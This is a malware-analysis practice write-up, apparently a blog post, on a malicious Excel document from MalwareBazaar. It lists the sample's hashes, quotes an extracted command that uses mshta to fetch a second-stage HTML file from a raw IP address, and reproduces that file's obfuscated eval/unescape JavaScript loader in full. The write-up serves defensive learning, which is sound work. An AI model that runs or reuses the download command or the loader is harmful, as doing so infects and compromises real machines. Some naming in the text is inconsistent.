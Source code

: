 ```yaml
---
layout: page
title: Malware Analysis Practice (Maldoc) #1
permalink: /lemon-mockingbird-north-alanine
---
```


# Analysis of lemon-mockingbird-north-alanine

asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.

Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)

---

## Static Analysis xlsx file

### File Hashes
I pulled the below hashes using hashcalc.

- MD5: db00ce44029164d0695bafc91fa67413
- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7

### VirusTotal
I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious. 

VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)

### Strings
I used strings to pull all strings from the sample. One string really stood out and it looked very useful.

cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB

From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)

---

## Static Analysis second stage se.html
The first thing I did with the html file was to open it in Notepad++ in the hopes that it wouldn't be a mess of encrypted characters. I was met with an obfuscated script split up into 3 blocks.

Block 1
```	<script>
		l1l=document.documentMode||document.all;
		var f9f76c=true;
		ll1=document.layers;
		lll=window.sidebar;
		f9f76c=(!(l1l&&ll1)&&!(!l1l&&!ll1&&!lll));
		l_ll=location+'';
		l11=navigator.userAgent.toLowerCase();
		function lI1(l1I){return l11.indexOf(l1I)>0?true:false};
		lII=lI1('kht')|lI1('per');
		f9f76c|=lII;
		zLP=location.protocol+'0FD';
		edtsQwJ5y67d8=new Array();
		mX52Su5Km3cOV=new Array();
		mX52Su5Km3cOV[0]='w%36%38%33BC\115\104'   ;
		edtsQwJ5y67d8[0]='<!DOCTYPE html PUBLIC "-//W3C~DTD XHTML 1.0 Transitional~EN"~~\ntp:~w~B.w3.org/TR/x~\n~1/~D~N~Pl1-t~-~/~1~3~5l.dtd"><~W x~~/="~=~?~A~C~E~G~I/19~y~V~l~f~head~gscript>ev~6(une}ape(\'\\166%61%72%20}1}7}37%3D}"}+2}+3B}%}9},8},D}23}4r}9n}4}0Ef}62o}}.4}>68}E}} %}Po}E4e}"}93})}>2C},})}$2}7}3}E6}57}A28i}:},}$}3}r~},}!3}z}2}hB}r2}4|}"}77B}J1y},}0}4}-}57}h}97}.}3fu}E}E}>74}B}F}l}}#q}6},|"}9}g}|151f}]}"1d||}5me|!}J|2|144oc|6}Nent}W}.6F|365}"|"|"}&|?||K}|5}l|O|N||H|=}Tl}l|<|}46|A|57|Y|,|j4|[E|^Ew}A6||U|O}p|}h}0|}.|},|+}|\n3|\'||}}k}5n|W~2}l7{}#}%{}7|x|)|z}w}h}.2}zCs}"}!|{}}$}|!}"0styl}\\|}1}Z}l1spla{A|}Y|,{|m}/},E},}c70r}E|O3{A{#|}(|%}*}"|{}"Fp}2{.{A}x2F{{K{Q{$}T{{I{ |}\'2}w}z|JEew{(A}A} }T|%{7a|/|{G}J}!4{Wg{2|{?}b}/}E}!|\\}|4}{WEn|3}1}"}c{0|?|.}?|9z	}0{\nz\r}0z7zz46{;}Ke|e5g}B{|{|{},}>|6{A|N{m}#A{zz6z|\n{t}8t|Zlzzz;}5}z@{?}K|}4}\'}z|)|~H}]k}s3}u|e|\r}c}-{f{3}az1C{Gn{~}4h{e|,}a|||dz,3|}-|MFcu|8zza|}"Ezc|mtz_ezuz0|;{{|y}<4azc}}Tm{G}]z|z]%5BzS5{}~fz"{!8jzTzV}{9}xzZ1} }w|<z}|z\'zw}R|y{"zk|*|/|K}o}qy|}wzY|z.|+|-{Py={}}j}]z[|,})|yyyy|*zz\\yFByyzx{z0{|N{zt{9|fy}T|C|N{|~#~%yBy#{g}yyy;}yQz7A{{|~yp|}yr|\'))</}}}}}}}	d|Bzt|Ft~D}t}"<tab{- wi~ch=\'10}$\' b~Hderx0\'~g~[x$dxgcol~Hx#x}xx~6ign = \'cxxx#<y|G {*{,ex8\'xAt-family: Vxd~.a, {oi~6xYHelve~2cxXxC~.s-sxif; xIxjizexR12pxxox*x,rxR#Fwwxobackgro}d-x|~Hxx06x2>ThxFswrx< x*x of this pyxFw&w(w\nxcxx\'by <b~gxIxC{+xxwx~ wzaFCCwya~&Guardx\\nyxxI~g/w7w5brww ul~2maxw#ox+w`w-ow/t yw wFwoxxYiw]g}xYJa} }{5xcswuwwayzyw} linkvkeepxebwm|GxxpxOxrw\'aw{7wyz muchv~He.v&w5/wPw6wV<aw:xExGxxxJxx*~-~2~4xRn~4ex{x+ww@wwCx2~	refx~p~@/'   ;
		j7eCosn='fu'   ;
		dhQtYD1xY4Wvl='ecYo6L6'   ;
		i4CE51FAn='LwjfpUopMlQdbeohOiUJ'   ;
		j7eCosn+='nction oisT5kq'+'h7gMSHK(ejd1b4W'+'vdU27U){'   ;
		tsY5j35h1t7p='%69\146%28%7AL\120%2E\151%6Ed\145x%4Ff%28%27%5C%35%35%27%29%3E%30%29%7Be\144%74sQ\167%4A%35y%36%37d%38%5B%30%5D%3D%27x%27%7D%3B%76\141\162%20l%32%3D%77in\144o%77%2Eo\160%65\162a%3F%31%3A%30%3Bf%75%6E%63%74io\156%20c%36%37%66%39\146%28%29%7B%69f%28\146%39f%37%36c%29%7Bdo\143\165%6De%6E\164%2Ew\162i%74\145%28%6C%4F%29%7D%7D%3B%66%75nc\164%69o%6E%20l%33%28%6C%34%29%7Bl%35%3D%2F\172a%2Fg%3Bl%36%3DS\164\162i%6Eg%2Efro\155Ch\141\162C%6F\144%65%28%30%29%3B\154%34%3Dl%34%2Ere\160%6C\141%63\145%28l%35%2Cl%36%29%3B%76\141\162%20%6C%37%3D%6E%65\167%20A\162r%61y%28%29%2Cl%38%3D%5F%31%3D\154%34%2El\145n%67%74%68%2C\154%39%2C%6CI%2C\151%6C%3D%31%36%32%35%36%2C%5F%31%3D%30%2C\111%3D%30%2C%6C\151%3D%27%27%3Bd\157%7B%6C%39%3D%6C%34%2E\143ha%72C\157%64e%41t%28%5F%31%29%3BlI%3D\154%34'   ;
		function h7gMSHKoisT5kq(btU3p36){i4CE51FAn+=btU3p36};
		edtsQwJ5y67d8[0]+='~Bw.pw.vvF.x*mxx~Ixcx_x~.kx#wTw8~4wgxDw<xHvcxKxMxOxQxSxUxWxYx[x]wkx`xbxdxfsxhxjxlxnxpvh~0xtxvxxxzwmx}xvBwD0wwww\nwwv?w?x/0x1x">vM.Pw.WwJv%vUwOvcwQw7yxawQ~du%v,/xxe>");dl=xzs|8|G.{6yxs;oe=xzovNo}~-?1:u	xV=(u4xu7uOu6tMwne||uRx.~6l)&&!u>;wsu3xuS.wsz|{-uSById;wsu@vxvN~0xwr?~[uxuxLlxk;tN=~5vx5w^~H.uxkrAwsu7toLuCxCvza}u/xstt.uvexOf}}t}}yu>=0u}ru:tt{utxV;t58u3a;}rvsgx\';|nw0~_ }m(){vFturx7u~e}uruvuC~G}rw\nt?x9tKt8OFuuuBvNx,xev8nvOw.|Bx+t zt"t$}fxOeyu!=-1t/t1t3v=i7vHt5u`!ztct}tza~6tyxvy|<swgxxlI1lx#t>w(px*nvHu	sqy7tC;s"t:S~[vg.fw\nmChwJCuV(13,xs9s8xu/yr(it-;i<481sD++tNs"7+=s\'tWI~Xu2x\n"+"!--sXsNsYs\\sX~f";slsV/sb*s^s#sYsksYsi;~X11~ns}sbyu-+sss6)s|Is~2rza"xsXs}1(3r\'s\ry~sby|sdrssvsr~.v/{-xwL{4u9:v;}x?vPu,slsOx\n/r$wQrsYw)nu-sesgu2r1+sTsr6rsIs}Isvsb{4~.r0r2r=r(r?r.r0r7susWsYr@x7veu?\'t	~0bxO~1xQw%dxnx#qw}zasdzxcrsgItE}tH~4vstItM{sst{lxZt]{7}bvGv$Begv\',\'{vvr|r~r[qrys?ezdqzaqfvqyur11r=}wru~-y}~Wqw}qxdyqaqwqgqwLvqs?vVqu*{-qsq\'nputqpqsst=r2r\nu/sxtv!(q=1tNxexk~\':q=qrt{oq(|,qUqWs87qYq[qVq\\qZq]u/wU}zak;qKxF2qNsqPqqRrw38,}Fqq7s95qq1qu,9qz,{qy|,qavFaqdqf 3qiqrsqlrvq0,qopqp|,q|pq{q{q~ppza;qbpqet 4pqkqqnqpqrqrp4qxpq|pqvppqdxxLwZtp"p\np$p\r,pp<p;p>p=p@)sSrp8qmqr7l,sfpIssqxr4pJr2,r<pRrfpPstu/~XruNugu[ujEulxsunTyNxM}r7I[2])[0]q}pJr[7pmtE~H(tsCt<piu8|Fgw$tsKtNmq?qj[t]srqu2uZu7p^p`|Gpbypdgpf|8(pio\npww0aLq?oozazbos?(jsCj<oL;jo{o\'xsCxsF;xo1xm(m&Mw^hvOuC(2,xyv{pYrnpYl[jpqxpsr[m>oV4pm}oZsSsrnu/sfqAr1~XtMsestoaxktTwqewt}rqo^qzaxxpBrhtGtj sfo^{sr2op\\u7wqw*w}ssou5u[vvw}xOq?r2o$ohpTo"snw$pPsurw%{-sAu^oIrnuPx}}zaxp_z~x}rMqsTsn\rsg[s\\xOoo;!(ps~4f&rtN~[ynsTu\\n7|Fds1xOdorfvOu|GNuV.vF{5wenFlnHs}pIn,Iyv}tiqFetNo[ntvqGnnXufnu7n#w^qoon\'n*o_rfnoMs\\sgn3t%n5n7sn:qIn=rn?nXnB}znUnHnZnKvFnMnOnQ{6x<mqGnnn[pBn^h(n`{'   ;
		j7eCosn+='eva'   ;
		xH52oqTJ='DeUOHNVQOEJTWexYfVZQOcTKOwOt'   ;
		j7eCosn+='l(unes'   ;
		xB7jh5qz='m3cS2JN62'   ;
		j7eCosn+='cape(ejd1b4WvdU27U))}'   ;
		xB7jh5qz+='uZ0FLiBTY'   ;
		eval(j7eCosn);
		xXeharPxFbO='LDhOjIdZoHHnZVMRvMvauGyZODOYiLvOPjv'   ;
		j7eCosn=''   ;
		tsY5j35h1t7p+='%2E\143%68%61%72\103od%65%41t%28%2B%2B%5F%31%29%3B%6C%37%5B\111%2B%2B%5D%3D\154I%2Bil%2D%28%6C%39%3C%3C%37%29%7D\167h%69%6C\145%28%5F%31%2B%2B%3C\154%38%29%3Bv\141\162%20\154%31%3D%6Eew%20\101\162%72a%79%28%29%2C\154%30%3D\156%65\167%20A%72\162%61y%28%29%2C%49\154%3D%31%32%38%3B%64\157%7Bl%30%5B%49%6C%5D%3DSt%72i%6E\147%2E\146rom%43har%43o\144e%28\111\154%29%7D\167\150il\145%28%2D%2D%49l%29%3B%49%6C%3D%31%32%38%3Bl%31%5B%30%5D%3D%6C\151%3D%6C%30%5Bl%37%5B%30%5D%5D%3B%6C\154%3D%6C%37%5B%30%5D%3B%5Fl%3D%31%3Bva%72%20\154%5F%3D%6C%37%2E%6Ce%6Egth%2D%31%3Bw\150%69le%28%5F\154%3Cl%5F%29%7Bswitc%68%28%6C%37%5B%5Fl%5D%3CI\154%3F%31%3A%30%29%7B%63a%73\145%20%30%20%3A%6C%30%5BI\154%5D%3Dl%30%5B\154l%5D%2BStr\151\156\147%28l%30%5B%6C%6C%5D%29%2E%73%75%62s\164r%28%30%2C%31%29%3B\154%31%5B%5F'   ;
	</script>```
Block 2
```	<script>
		eval(unescape('f\165n%63%74\151\157n%20yI%36Q%51%36%20%20%20%20%28\164%33%50%35FFQ%56%29%7B\150%76%43E\125%35Z\105\115M%4B\102%32%3Dt%33%50%35FF\121%56%7D%3B'));
		qeb6lGDCHLg341R='l'   ;
		xB7jh5qz+='q3rKC46b'   ;
		mX52Su5Km3cOV[0]+='%72%30o%4B%31%31%35%67B'   ;
		edtsQwJ5y67d8[0]+='o[tWtFrjx7o`rouAuw~GmtwZlu0nzaxuE|Fm&sgm)nix|r~1u?nm\'tXtfu\\{-rp{m6m/mrioxn,qAo|wJ t"~[aFri1C|G|Gt-m@owtIrqmDsmH~-mKtG}bmOp{0mRmrlpZe,p,cnn?n4m"tZuyvwJtNv%vtyXdjnS|GwFostoMppqmh}x`qLtOcvHon"pxR~.wstMvTl	nTvcmHwIlF~-guS(mhsDt%p=t-mqm	xnNxtpmtr|q\n(wf,n`tWo;l=qI{mr~/xtl(v$l*ll-s-ivtmoul0lrl4mnDml+lCllrlGw)m\ntnOmsl7l9vFl;l,v%}v3Sixs+pBoZm(xuunam`oxr	o(tNx o?w$nP~.xtLu/dp8Dnllujojott%o)l2tNo=s)}zbs-s/s1s3s5lpoAfx,pyr*25+|Nn\\lxF{kks-ks@kd*os0rza\'tDosPou=k+k-=ol/kzalNkk.k*k0tWtPtRx7k1lpzy}w!xtYvN}dExb|GLw&xt\\ty\'wvGveq\rtNmlkErYkHxkK{*|Fx}x,q pRrm,tpBk o;{+kAw"lu\\kYkItk\\kMxkOkQtu}kU{knkFkZkJkLk^s@\'kaq\rkcqkesl.khkjk@olw"kWu\\txv!k~tkvtqkxkTyu{jw^jhj}~4jqzassn[ljtIq@roqHsCutwwt\ntrt\rttu[ttr^rtxkodo;jmnu{tNj,2k2(jv!s/mj,3jFjm,~-jCrq=4jFk|sgu`qHtyjTjRq>1jFutpxt#t%np{vwJit+l3jLjFmq>ku`}jbtrjeixFxjjoHj,xk9xck;vrq}ry{}	w5s>mmBrmron>oIqsuknon\'|Gunupk`sfq<il"ml%vFmoxbmpYqIn]w^n_t]rliisziy~}vlwIue"VBSi.t~f\r\n i=i>WkD.Rel^xtTo piIi;i>i?iAuUxbiG -4xiJiTiVi;	i=i;COx8~ $c3x}{LOkoNijoBoik}ihinimikipirs)itikivioiqk1ki{ilinixk1hi}h}ghhi}}\'~\nhiwh~>hi~irvK9~(2iU.st8h} /mm/nnyyv%pzbk()\'nPvm}\'hh	qzax:q"i;A~x9~;-v;t"~1ibcsu\'(h6hhJirNehLhiii|h\rirwhP}-ObjhWechWhWwgNh`hRhhirxchW.WhdiuhTk1twh1nRx<}hWh8h.;h;\nCMi`~;ic4xbChWvhmhShghpnghfhk1t).DghhuCgho}nlgg	ishegiroh0m\rnShug ghwh:i;GNh~I`E`XibJI|g0g2X~;+ia~;g,Ah~$g6uMicqxgza,ic3iSJovh9u/hzJHWET5JQ35UgYW5Hi`h= g=h|gd i^ggGgAg=g-i;WSi`s1s@87) &ghhgtrgg"sxggkiCxbvx	.~>iu.gggs(8g}gyfx4gwg="x`~}i;oh SfHRTJKTSf!ARgax9ClhZjh^ongp)i;REgSEfgYf gTgSAWgrg{(f49gwff?fBfDgzs@5k&fHffAfCgxfI(fGfQfOyv+fNfFfPfEs@fTf\\(}myvfUf?xqIfXfd|?fMfh5fjs@frzaf0qIfcfn08fpfdfvfmrri;fff f"f$Kf&HiB} f3f5f7Qf9Wf;f=g=gSgUgWgYg[g]Qg_HxYfAfwiZghx,xkiLi>i+y|w5~\na:wzvtitIs"o~#A~;e+ie-~4~5|8~nipnjwe4n7e,w^~_~nu:rkCx~nxxy~;wx5~\neJ0eLwQe(e*eAe6eC~4eT}za}w6wnyu!e_eT~|> '   ;
		h7gMSHKoisT5kq('p20qO4m3u43');
		tsY5j35h1t7p+='%6C%5D%3Dl%30%5B%49l%5D%3Bif%28l%32%29%7B%6C%69%2B%3D%6C%30%5B\111\154%5D%7D%3B%62%72\145\141\153%3Bdefa%75\154t%3Al%31%5B%5F%6C%5D%3D\154%30%5Bl%37%5B%5F%6C%5D%5D%3B\151f%28%6C%32%29%7Bli%2B%3Dl%30%5B%6C%37%5B%5F%6C%5D%5D%7D%3Bl%30%5BI\154%5D%3D\154%30%5Bl%6C%5D%2B\123%74\162i%6Eg%28l%30%5B\154%37%5B%5Fl%5D%5D%29%2E\163\165%62\163%74r%28%30%2C%31%29%3B\142%72\145ak%7D%3BIl%2B%2B%3Bll%3D\154%37%5B%5F\154%5D%3B%5Fl%2B%2B%7D%3B\151f%28%21l%32%29%7Bre%74urn%28l%31%2E\152o%69%6E%28%27%27%29%29%7De\154s\145%7B\162e\164u%72n%20%6Ci%7D%7D%3B\166ar%20\154%4F%3D%27%27%3B%66o%72%28%69\151%3D%30%3Bi\151%3C\145%64tsQwJ%35\171%36%37d%38%2El\145n\147%74h%3B%69i%2B%2B%29%7B%6C%4F%2B%3D\154%33%28%65d\164%73%51wJ%35\171%36%37\144%38%5B%69%69%5D%29%7D%3Bc%36%37f%39%66%28%29%3B'   ;
	</script>```

Block 3
```		<!--qYjXd1OND0RNWf38O8O2-->
	<script>
		xXeharPxFbO      ='xOCSHOGNQcIIrMZITOaeWwlCcXOtEFZPOZdMOUjitamfrYGPd'   ;
		oisT5kqh7gMSHK  (tsY5j35h1t7p);
		yI6QQ6   (tsY5j35h1t7p);
		h7gMSHKoisT5kq    (xH52oqTJ);
		iTyx7jacEB7sp804='s1m44XF7ZiYSVix800CGQF7mIXd'   ;
		eval(unescape('%71%79%36%28%22%63%37%39%38%66%62%36%39%66%22%29%3B'));
		qeb6lGDCHLg341R+='GqMoOOYlEKDQjuvOcotoNcoOPbqmOkFMyHXydOOtgYLMpsFxOOQdBddbblnXIPJCOuVLqUOTaxdOxDrmfFjOuOwOYfrwOewuwyiOJMjeL'   ;
		xB7jh5qz+='wf46Om'   ;
	</script>```